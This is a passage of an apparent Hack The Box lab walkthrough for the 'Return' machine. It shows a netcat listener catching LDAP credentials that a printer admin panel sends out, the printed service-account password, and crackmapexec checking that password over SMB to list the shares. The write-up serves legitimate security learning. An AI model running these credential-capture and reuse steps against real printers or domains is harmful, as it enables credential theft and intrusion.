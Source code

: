 # Exploit

## User

The printer admin will send ldap credential to printer to auth so i set up a nc listener and send it to my IP, and when send cred nc show user and password

![image](https://raw.githubusercontent.com/ficstkeyfx/ficstkeyfx.github.io/refs/heads/main/.github/images/20241218_return_send.png)

```shell
┌──(kali㉿kali)-[~/htb/machine/ad/return]
└─$ nc -nvlp 389                                            
listening on [any] 389 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.108] 49594
0*`%return\svc-printer�
                       1edFg43012!!
```

Now, try smb with auth

```shell
┌──(kali㉿kali)-[~/htb/machine/ad/return]
└─$ crackmapexec smb 10.10.11.108 --shares -u svc-printer -p '1edFg43012!!'
SMB         10.10.11.108    445    PRINTER          [*] Windows 10 / Server 2019 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.10.11.108    445    PRINTER          [+] return.local\svc-printer:1edFg43012!! 
SMB         10.10.11.108    445    PRINTER          [+] Enumerated shares
SMB         10.10.11.108    445    PRINTER          Share           Permissions     Remark
SMB         10.10.11.108    445    PRINTER          -----           -----------     ------
SMB         10.10.11.108    445    PRINTER          ADMIN$          READ            Remote Admin
SMB         10.10.11.108    445    PRINTER          C$              READ,WRITE      Default share
SMB         10.10.11.108    445    PRINTER          IPC$            READ            Remote IPC
SMB         10.10.11.108    445    PRINTER          NETLOGON        READ            Logon server share 
SMB         10.10.11.108    445    PRINTER          SYSVOL          READ            Logon server share 
```
